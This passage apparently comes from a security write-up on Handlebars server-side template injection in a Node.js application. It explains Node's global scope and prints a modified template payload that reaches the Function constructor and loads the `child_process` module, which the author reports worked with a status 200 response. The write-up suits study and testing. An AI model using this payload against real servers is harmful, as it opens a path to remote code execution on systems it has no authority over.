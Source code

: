 ```
Global
```

In computer programming `Globals` are variables that are globally accessible throughout the program. `require` keyword is in fact not in the global scope.

I modified my payload code like the following, I got the `status 200` response and the `require` object has been called successfully and the `child_process` module loaded.

```js
{{#with "s" as |string|}}
 {{#with "e"}}
 {{#with split as |conslist|}}
 {{this.pop}}
 {{this.push (lookup string.sub "constructor")}}
 {{this.pop}}
 {{#with string.split as |codelist|}}
 {{this.pop}}
 {{this.push "return process.mainModule.require('child_process');"}}
 {{this.pop}}
 {{#each conslist}}
 {{#with (string.sub.apply 0 codelist)}}
 {{this}}
 {{/with}}
 {{/each}}
 {{/with}}
 {{/with}}
 {{/with}}
{{/with}}
```

<br>

![alt text](image-6.png#center)
